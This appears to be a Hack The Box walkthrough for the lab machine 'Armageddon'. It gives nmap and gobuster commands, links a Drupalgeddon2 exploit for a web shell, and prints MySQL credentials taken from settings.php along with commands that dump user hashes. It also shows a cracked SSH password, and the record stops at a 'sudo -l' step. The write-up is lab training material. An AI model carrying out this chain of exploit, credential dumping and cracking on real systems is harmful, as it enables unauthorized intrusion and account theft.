




1. Connect the box, get IP.
2. Do a nmap scan:
    ```bash
    nmap -A -Pn 10.10.10.233
    ```

    

3. Run gobuster for directory bruteforcing:
    ```bash
    gobuster dir -u 10.10.10.233 -w /usr/share/wordlists/dirb/common.txt -z -t 100
    ```

    

4. Visit the website 'http://10.10.10.233:80/'. It looks like this:  

      

5. Use [this RCE](https://github.com/dreadlocked/Drupalgeddon2) to get a web-shell.
6. In the './sites/default/settings.php' file, there is the username and password for MySQL:
    ```
    username: drupaluser
    password: CQHEy@9M*m23gBVj
    ```
7. Run the following command to show databases:
    ```bash
    mysql -u drupaluser -pCQHEy@9M*m23gBVj -e 'show databases;'
    ```
8. There's a database named drupal, further looking we find a table named 'users' in it, and columns name, mail and pass in it. Get those:
    ```bash
    mysql -u drupaluser -pCQHEy@9M*m23gBVj -e 'select name,pass,mail from drupal.users;'
    ```
    We get this:
    ```
    brucetherealadmin	$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt	admin@armageddon.eu
    ```
    Crack it using John to get ssh creds:
    ```
    brucetherealadmin:booboo
    ```
    Login to SSH and get 'user.txt'.
9. Run sudo -l, get this:  

    
    